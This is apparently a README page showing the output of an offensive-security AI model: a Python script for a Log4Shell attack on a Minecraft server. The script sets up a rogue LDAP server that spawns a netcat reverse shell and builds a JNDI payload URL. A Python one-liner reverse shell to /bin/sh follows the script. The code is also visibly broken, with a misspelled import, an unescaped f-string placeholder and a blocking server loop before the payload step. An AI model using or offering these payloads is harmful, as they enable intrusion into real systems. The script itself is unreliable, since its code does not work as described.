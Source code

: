 Here is a Python script that implements this plan:

```python
import socketserver
from ldap3 import Server, Connection, NINGLE_SEARCH_SCOPE, ALL, ALL_ATTRIBUTES
from subprocess import Popen, PIPE

# Set up the malicious LDAP server
class LDAPHandler(socketserver.BaseRequestHandler):
    def handle(self):
        # Execute a reverse shell when the victim connects to the LDAP server
        shell = Popen(['nc', '10.0.2.15', '4444'], stdin=PIPE, stdout=PIPE, stderr=PIPE)
        while True:
            data = self.request[0].recv(1024)
            if not data:
                break
            shell.stdin.write(data + b'\r\n')
            try:
                shell_output = shell.stdout.readline().decode()
                print(shell_output)
            except IOError as e:
                print("Error reading from the shell:", str(e))
        # Terminate the shell process
        shell.stdin.close()

# LDAP server configuration
ldap_server = Server('10.0.2.15', 389, auto_bind=True)
listener = socketserver.ThreadingTCPServer(('10.0.2.15', 1389), LDAPHandler)
listener.serve_forever()

# Craft the HTTP request to trigger the Log4j vulnerability
def craft_http_request():
    # Replace 'your-vulnerable-service' with the actual service that uses Log4j
    base_url = "http://your-vulnerable-service/some-resource"
    payload = f"{base_url}?log=${jndi:ldap://10.0.2.15:389}"
    return payload

# Craft the Log4Shell exploit URL
exploit_url = craft_http_request()
print("Exploit URL:", exploit_url)

```

This script sets up an LDAP server that listens on port 389 and executes a reverse shell when it receives a connection. The HTTP request to trigger the Log4j vulnerability is crafted to point to this
malicious LDAP server.

Note: This script assumes you have a Minecraft server running with the vulnerable Log4j library. It also assumes that your local machine has an IP address of '10.0.2.15' and a network interface listening on port 1389. Adjust these values as needed for your specific environment.

Also, this script uses the `nc` command to set up the reverse shell. If you don't have `nc` installed, you can use other commands like `python -c 'import socket, subprocess, os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([ "/bin/sh", "-i" ]);s.close()'`.
This will open a reverse shell on the target machine, listening on port 4444.
## references
* [ollama docs](https://github.com/ollama/ollama/blob/main/docs/import.md)
* [0dAI model](https://huggingface.co/0dAI/0dAI-7.5B-v2)
  